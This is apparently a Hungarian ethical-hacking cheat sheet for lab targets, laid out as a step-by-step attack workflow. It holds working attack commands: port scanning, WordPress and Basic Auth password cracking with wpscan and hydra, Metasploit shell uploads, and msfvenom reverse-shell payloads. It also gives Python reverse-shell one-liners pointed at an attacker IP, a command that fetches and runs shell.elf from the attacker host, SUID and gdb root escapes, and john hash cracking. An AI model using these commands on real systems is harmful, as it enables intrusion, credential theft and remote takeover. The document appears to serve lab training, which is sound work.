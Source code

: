 [Krisz githubja](https://github.com/Inckrisz/Etikus-hack/blob/main/etikushack.txt#L139)
1. Megnézzük milyen portok vannak nyitva, a {IP} placeholder helyére a célpont IP címe kell. Itt meg lehet nézni [Exploit-DB](https://www.exploit-db.com/)-n, hogy van-e olyan exploit amit ki tudunk használni, ha van msfconsoleos akkor instant root user lehetünk.
``` sh
sudo nmap -sS -sV {IP}
```
2. Ha találunk egy webszervert, akkor dirbusterrel feltérképezzük a lehetséges mappákat /valami/, ehhez a wordlist. (A megtalált mappa lesz az URI majd)
``` 
/usr/share/wordlists/dirb/common.txt
```
3. Ha megvan a weboldal a megfelelő aloldallal (pl.: login), akkor 2 lehetőség van, amennyiben Wordpresses a weboldal, úgy `wpscan`-nel feltörjük a user jelszavát. Az első parannccsal a usereket lehet megnézni a másodikkal meg a jelszavakat lehet törni. A {IP} és {URI} helyére a törendő gép IP-je és a weblap URI-je kell
```
wpscan --url http://{IP} -e u
```
```
wpscan --url http://{IP}/{URI} --passwords /usr/share/wordlists/rockyou.txt
```
4. Ha a login Basic Authos akkor pedig `hydra`-t kell használni a feltöréshez
```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt
```
5. Ha megvan a Wordpress oldalhoz a user:password páros akkor `msfconsole`-al azonnal fel lehet törni. Msfconsoleban beírjuk az alábbi parancsot majd a `set` paranccsal megadjuk az opciókat, amiket a `options` kiír és "yes" van mellette. Ezután run és fel is törtük.
```
use exploit/unix/webapp/wp_admin_shell_upload
```

6. Ha nem lehetséges, akkor `msfvenom`-mal csinálunk egy reverse shellt és belépés után feltöltjük egy php fájlba a phpmyadmin felületen (lehetőség szerint comments.php), majd megnyitunk egy kommentet, közben pedig csinálunk egy listenert a saját gépünkön.
```
nc -lvnp 4444
```
```
msfvenom -p php/reverse_php LHOST={HOST_IP} LPORT=4444 -f raw > rshell.php
```
7. Ezután felupgradelhetjük a shellünket.
```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

8. Ha bent vagyunk a gépben, akkor el kell kezdeni mászni a ranglétrán. A `sudo -l`-el meg tudjuk nézni mihez van jogunk, de ehhez jelszó kell.
	Find-al keressük meg milyen SUID bitek vannak a rendszerben. Ahol + jel van ott SUID bit van. Ha ez egy futtatható fájlon van akkor a fájl nem az én jogaimmal indul hanem a SUID bites jogokkal
```
find / -perm -u=s 2>/dev/null
```
### Használható fájlok
[GTFobins](https://gtfobins.github.io/)-on meg lehet nézni van e valami
- /usr/sbin/pppd
- /usr/lib/dbus-1.0/dbus-daemon-launch-helper
- /usr/lib/openssh/ssh-keysign
- /usr/lib/xorg/Xorg.wrap
- /usr/libexec/polkit-agent-helper-1
- /usr/bin/sudo
- /usr/bin/su
- /usr/bin/fusermount3
- /usr/bin/pkexec
- /usr/bin/gpasswd
- /usr/bin/chfn
- /usr/bin/mount
- /usr/bin/chsh
- /usr/bin/umount
- /usr/bin/newgrp
- /usr/bin/ntfs-3g
- /usr/bin/passwd

 Ha van gdb
```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

9. Megnézni, hogy a /etc/passwd írható/olvasható-e, vagy ki által lehet írni vagy olvasni `getfacl /etc/passwd` vagy van a benne hashelt jelszó (juliet:x:.. --> x helyén), ha van akkor `john`. Kimentjük egy fájlba pl jelszo. A  --format=crypt akkor kell ha y típusú
```
john jelszo --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt 
```

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```



## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```


## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```
 

 ## Jelszó generálás
 ```
openssl passwd -5 alma
```
## Burpsuite
Firefox addon FoxyProxy
Proxy tab --> Intercept ON
Request küldése majd jobb klikk
Send to Repeater (jelszavak próbálgatása, manualisan)
Send to Intruder 
 Hozzáadjuk az add al, majd payload tab, megadjuk a jelszavakat és start attack, ezután nézzük a hosszakat

